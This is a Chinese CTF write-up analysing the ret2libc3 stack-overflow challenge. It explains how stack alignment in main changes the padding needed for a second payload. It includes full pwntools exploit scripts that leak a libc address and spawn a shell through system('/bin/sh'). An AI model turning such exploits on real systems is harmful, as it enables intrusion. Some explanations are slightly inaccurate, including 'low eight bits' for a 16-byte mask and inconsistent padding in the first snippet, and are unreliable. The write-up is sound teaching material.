# Ret2libc中的main与_start函数

### 1. 题目背景

Ret2libc3练习([ret2libc3-CTF Wiki](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3))是一个简单的return to libc练习题，其通过向程序输入两次payload来get shell，第一次payload用于获取`__libc_start_main`函数真实加载地址，第二次payload通过该加载地址计算出libc中的偏移，进而调用`system`函数：




第一个payload:

```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')
ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts'] # 0x08048460
libc_start_main_got = ret2libc3.got['__libc_start_main'] # 0x0804a024
main = ret2libc3.symbols['main'] # 0x08048618

payload1 = b'a'*112 + p32(puts_plt) + p32(main) + p32(libc_start_main_got)
sh.recv()
sh.sendline(payload1)
libc_start_main_addr = u32(sh.recv(4))
base_addr = libc_start_main_addr-libc_start_main_offset
print("[INFO]libc_start_main_addr:",hex(libc_start_main_addr))
print("[INFO]base_addr = ",hex(base_addr))
```

第二个payload(与第一个payload在同一个文件):

```python
system_addr = base_addr + system_offset
str_bin_sh_addr = base_addr + str_bin_sh_offset

print("get shell")

payload2 = b'A'*112 + p32(system_addr) + p32(0xdeadbeef) + p32(str_bin_sh_addr)
sh.sendline(payload2)

sh.interactive()
```

> 这里发现，如果payload1选择返回main函数，则payload2就是`b'A' * 104`，如果选择`_start`函数返回，则payload2就是`b'A' * 112`。

### 2. 问题解析

网上的资料解析如下：



问题是，这个操作main函数里也有：



并且该解释也没有说明payload2具体填充时到底是怎么错位了8 bit的。

我们注意到_start函数和main函数都有如下语句`and esp, 0FFFFFFF0h`：





但由于从_start到main涉及到了新函数栈的调用以及`__libc_start_main`调用，\_start函数中对esp第八位置零作用不大（可能）。



注意main函数开头的三句指令：

```assembly
push    ebp
mov     ebp, esp
and 	esp, 0FFFFFFF0h
```

这里令ebp=esp，并将esp的低八位置零，可能存在三种情况：

| ESP低八位 | 三句指令后     |
| --------- | -------------- |
| 0         | esp == ebp     |
| 4         | ebp == esp + 4 |
| 8         | ebp == esp + 8 |

这里分情况讨论再次进入main函数时的场景，注意再次进入main函数后，栈帧重新生成，数组S重新分配：

1. ESP低8位为8：

   

   当运行至③时栈的结构如下：

   

   可以看见由于esp比ebp开始就少了8字节，最后数组s的首地址距离返回地址108+4=112字节，payload2需要填充112字节。

   调试验证：

   

   从如果payload1从\_start函数返回，则再次进入main函数时esp的后八位就为8，所以payload2需要填充112字节。

   2. ESP低8位为0：

      同理，如果第八位为0则payload2就填充128-28+4=104字节。如果payload1从man函数返回时，就是这种情况：

      

   3. ESP低8位为4：

      如果ESP低8位为4（虽然此题没有这种情况），可以预见payload2需要填充128+4-28+4=108字节，使用IDA调试更改这个值来验证：

      

      

综上可以发现，造成不同payload长度的原因就是因为main函数开头构造栈帧时有一句特殊的`and esp, 0FFFFFFF0h`，从而导致不同的esp初始值需要不同的填充长度。

### 3. 资料

- 题目：[ret2libc3-CTF Wiki](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

- 完整exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']
libc_start_main_offset = 0x01ade0

#print hex(puts_plt), hex(libc_start_main_got), hex(main)
#print "leak libc_start_main_got addr and return to main again"
payload = b'A' * 112 + p32( puts_plt) + p32(main) + p32(libc_start_main_got)
sh.sendlineafter(b'Can you find it !?', payload)

#print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
print("libc_start_main_addr = ",hex(libc_start_main_addr))
libc = ret2libc3.libc
libc.address = libc_start_main_addr - libc.symbols['__libc_start_main']
print("libc_start_main_addr = ",hex(libc_start_main_addr))
#print("libc.symbols['__libc_start_main'] = ",hex(libc.symbols['__libc_start_main']))
system_addr = libc.symbols['system']
print("system_addr",hex(system_addr))
print("system_offset = ",hex(system_addr-libc_start_main_addr+libc_start_main_offset))
base_addr = libc_start_main_addr - libc_start_main_offset
a  = libc.search(b'/bin/sh')
binsh_addr = 0
for i in a:
    binsh_addr = i
print("bin_sh_offset = ",hex(binsh_addr-base_addr))
#print "get shell"
#sh.recvuntil(b'Can you find it !?')
payload = b'A' * 104 + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)

sh.interactive()
```

- References:
  - [基本ROP之ret2libc3-CSDN博客](https://blog.csdn.net/AcSuccess/article/details/104335514)